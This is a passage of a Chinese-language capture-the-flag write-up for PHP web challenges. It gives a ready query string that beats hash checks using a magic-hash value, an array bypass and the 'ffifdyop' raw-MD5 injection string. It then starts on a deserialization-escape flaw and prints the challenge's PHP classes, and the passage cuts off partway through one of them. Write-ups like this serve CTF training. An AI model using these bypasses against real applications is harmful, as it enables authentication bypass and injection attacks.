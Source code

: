 



level1 与 hsctf6 有个类似的

直接用`0e251288019`

level2 数组绕过

`hash2[]=1&hash3[]=2`

level3  `ffifdyop`

最终

`?hash1=0e251288019&hash2[]=1&hash3[]=2&hash4=ffifdyop`



![dBLM28.png](https://s1.ax1x.com/2020/08/24/dBLM28.png)

# web辅助



index.php 存在将 player类经过处理存入文本

![dwFCDK.png](https://s1.ax1x.com/2020/08/23/dwFCDK.png)



play.php存在将写入的数据进行检查再进行反处理,明显的反序列化逃逸漏洞



![dwF9u6.png](https://s1.ax1x.com/2020/08/23/dwF9u6.png)



检查和反处理如下

![dwFPHO.png](https://s1.ax1x.com/2020/08/23/dwFPHO.png)



存在如下类

````php
<?php
class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

    public function get_admin(){
        return $this->admin;
    }
}

class topsolo{
    protected $name;

    public function __construct($name = 'Riven'){
        $this->name = $name;
    }

    public function TP(){
````
